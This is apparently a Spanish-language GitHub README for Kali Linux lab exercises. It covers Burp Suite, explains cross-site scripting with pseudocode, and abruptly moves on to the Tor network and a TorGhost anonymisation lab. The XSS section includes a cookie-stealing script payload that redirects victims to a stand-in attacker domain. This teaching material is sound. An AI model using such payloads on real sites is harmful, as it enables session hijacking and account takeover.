


<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/proxy.png">
  <source media="(prefers-color-scheme: light)" srcset="images/proxy.png">
  
</picture>
</p>

# :closed_lock_with_key:	Burp Suite Community Edition

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/burpsuite_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/burpsuite_1.png">
  
</picture>
</p>

> [!CAUTION]
> Laboratorios preparados para la realización de diversos ataques (Kali Linux 2023.4) mediante la utilización de la herramienta <b>Burp Suite</b>, una herramienta de seguridad de software creada con código abierto que se utiliza para hacer pruebas de pentesting y descubrir vulnerabilidades en aplicaciones web desarrollada por <b>PortSwigger Web Security</b> que incluye funciones de seguridad, además de una gran cantidad de recursos y documentación en línea para ayudar a comprender todas las propias funcionalidades de la herramienta.

## NO es una herramienta más...
> <b>Burp Suite</b> se ejecuta básicamente como proxy y se puede abrir directamente desde Kali Linux como una aplicación independiente en su versión <b>Community Edition</b> que, evidentemente, dispone de las opciones básicas de creación de proyectos temporales... Todo lo imprescindible en la versión gratuita de la plataforma, que está pre-instalada por defecto en el sistema operativo. Su función principal es la de actuar como <b>proxy HTTP</b> de la aplicación para hacer el pentesting.

> Un <b>proxy HTTP</b> es una herramienta usada en Hacking Ético y Pentesting con el fin de interceptar el tráfico de red, lo que permite analizar, modificar, aceptar o rechazar todas las solicitudes y respuestas de la aplicación.


<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/burpsuite_0.png">
  <source media="(prefers-color-scheme: light)" srcset="images/burpsuite_0.png">
  
</picture>
</p>


-------------------------------------------------------------------------------------------------------------------------

## Utilizando JavaScript (JS) por parte del atacante...
Es cierto que si buscamos por Internet, las vulnerabilidades XSS son percibidas como menos peligrosas que, por ejemplo, las vulnerabilidades de inyección SQL... Nada más lejos de la realidad ya que las consecuencias de la capacidad de ejecutar JavaScript por parte de los navegadores web (aunque en un entorno muy controlado), proporcionan un acceso limitado al sistema operativo del usuario y a sus archivos, lo que lo convierte en un peligroso ataque: 
- El código JS malicioso tiene acceso a todos los objetos a los que tiene acceso el resto de la página web, lo que incluye el acceso a las cookies del usuario, utilizadas para almacenar la sesión. Si se obtiene la cookie de sesión de un usuario, puede hacerse pasar por este, realizando acciones en su nombre y obteniendo acceso a los datos confidenciales o controles del usuario "robado".
- JS puede leer el <b>DOM</b> del navegador, lo que le permite realizar modificaciones arbitrarias en él, algo sólo posible dentro de la página en la que se está ejecutando ese código JavaScript.
- JS puede utilizar el objeto <b>XMLHttpRequest</b> para enviar peticiones HTTP con contenido arbitrario a destinos arbitrarios, incluyendo que en la mayor parte de los navegadores modernos, JavaScript puede utilizar las API de HTML5, dando acceso a la geolocalización del usuario, la cámara web, micrófono e incluso a archivos específicos del sistema de archivos del usuario que está ejecutando ese browser. La mayor parte de estas API requieren el consentimiento del usuario, pero el atacante puede utilizar la ingeniería social para eludir esa limitación.
- <b>Cross-site Scripting</b> suele utilizarse junto con otros tipos de ataques como <b>Cross-Site Request Forgery (CSRF)</b>, <b>XSS almacenado/persistente</b>, <b>XSS reflejado/no persistente</b> y <b>XSS basado en DOM</b>.

> El funcionamiento consta de las siguientes fases:
  - Para ejecutar código JavaScript malicioso en el navegador de una víctima, se debe encontrar primero una forma de inyectar código malicioso (<b>payload</b> o carga útil) en una página web que visite el objetivo.
  - La víctima debe visitar la página web con el código malicioso, para lo cual se podría crear una trampa utilziando la ingeniería social y/o el phishing para enviar una URL maliciosas al objetivo y objetivos. Además, el sitio web vulnerable debe incluir directamente entradas de usuario en sus páginas. 
  - El atacante inserta una cadena maliciosa que será utilizada dentro de la página web y tratada como código fuente por el navegador de la víctima. 
  
Veamos un ejemplo con la ayuda de un fragmento de pseudocódigo (lado servidor) que se utiliza para mostrar el comentario más reciente en una página web:
<b>

```
print "<html>"

print "<h1>Comentarios recientes</h1>"

print database.latestComment

print "</html>"
```
</b>

Este script toma el último comentario de una base de datos y lo incluye en una página HTML, por lo que el propio navegador asume que el comentario consiste sólo en texto y no contiene etiquetas HTML u otro código... ¡¡Es vulnerable a XSS!! De hecho, un atacante podría enviar un comentario que contenga una carga maliciosa:
<b>

```
<script>ejecutando_XSS();</script>
```
</b>

Así, el propio servidor donde se aloja la web, proporciona el siguiente código HTML a los usuarios que visitan esta página:

<b>

```
<html>

<h1>Most recent comment</h1>

<script>doSomethingEvil();</script>

</html>
```
</b>
De este modo, cuando la página se carga en el navegador de la víctima, se ejecuta el script malicioso.

Otro ejemplo que suele conllevar el robo de <b>cookies mediante XSS</b>, otro de los ataques XSS más comunes en el que el atacante se hace pasar por la víctima enviando la cookie a su propio servidor de diferentes maneras, como por ejemplo ejecutar un script similar al siguiente del lado del cliente en el navegador de la víctima:

<b>

```
<script>

window.location="http://webmaligna.com/?cookie=" + document.cookie

</script>
```
</b>


La siguiente figura ilustra paso a paso un ataque XSS sencillo.
El atacante inyecta una carga útil en la base de datos del sitio web enviando un formulario vulnerable con contenido JavaScript malicioso.
La víctima solicita la página web al servidor web.
El servidor web sirve al navegador de la víctima la página con la carga útil del atacante como parte del cuerpo HTML.
El navegador de la víctima ejecuta el script malicioso contenido en el cuerpo HTML. En este caso, envía la cookie de la víctima al servidor del atacante.
El atacante sólo tiene que extraer la cookie de la víctima cuando la petición HTTP llega al servidor.
El atacante puede ahora utilizar la cookie robada de la víctima para suplantar su identidad.
Para saber más sobre cómo se llevan a cabo los ataques XSS, puede consultar un artículo titulado A comprehensive tutorial on cross-site scripting.


----------------------------------------------------


> El funcionamiento se basa en los siguientes elementos:

- <b>Tipo de comunicación</b>: la comunicación con la red Tor se establece mediante una ruta de comunicación más compleja que las conexiones normales a la hora de llegar al site al que se desea acceder, poniendo 3 nodos aleatorios de por medio.
- <b>Manejo de la comunicación</b>: la comunicación se maneja por capas, de modo que cada nodo solo tiene información de la capa inferior y superior a la propia, sin tener acceso a las capas de otros niveles (podrían ser el origen o el destino de la conexión), un tipo de arquitectura que dificulta que un monitoreo la conexión para poder llegar a identificar y localizar la conexión.
- <b>Tipos de servidores (nodos)</b>: En la red se dispone de <b>nodos de entrada</b>, el primer punto por donde pasa la información. Realmente, es el que conoce al IP del usuario que conecta a TOR, pero al utilizar el cifrado en varias capas, no se puede comprobar ni lo que se envía ni el destino final. A lo largo del viaje de los datos, estos pasan a través de <b>nodos intermedios</b>, puentes entre el nodo de entrada, otros nodos intermedios y el nodo de salida, donde no se obtiene ningún tipo de información sobre el usuario ni sobre el destino final de los datos. En el destino, el <b>nodo de salida</b> es el último punto en el proceso, el que realmente puede ver a qué destino se envían los datos, pero no sabe de dónde provienen... En conclusión los datos viajan cifrados mientras están en el circuito de la red Tor, así que ningún nodo puede saber la ruta completa de la conexión. 

<br>
<br>

#  Antes de todo... 

> [!IMPORTANT]
> Antes de navegar por la Deep Web o utilizar cualquier tipo de herramienta que necesite de una conexión con el exterior, es necesario seguir una serie de pasos imprescindibles para que el sistema esté completamente preparado para la realización correcta del laboratorio.

> ### Pre-requisitos 📋
Paso 1: Comprobación de la IP pública del nuestro propio sistema, para lo cual se utilizará el navegador de Kali Linux (Mozilla Firefox), donde se introducirá la URL: 
<b>
```
https://www.cual-es-mi-ip.net/
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/torghost_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/torghost_1.png">
  
</picture>
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/torghost_2.png">
  <source media="(prefers-color-scheme: light)" srcset="images/torghost_2.png">
  
</picture>
</p>

<br>
<br>

#  Accede a los laboratorios  :floppy_disk:

- [LABORATORIO I](TorGhost): - Instalación y configuración del script de anonimización <b>TorGhost</b>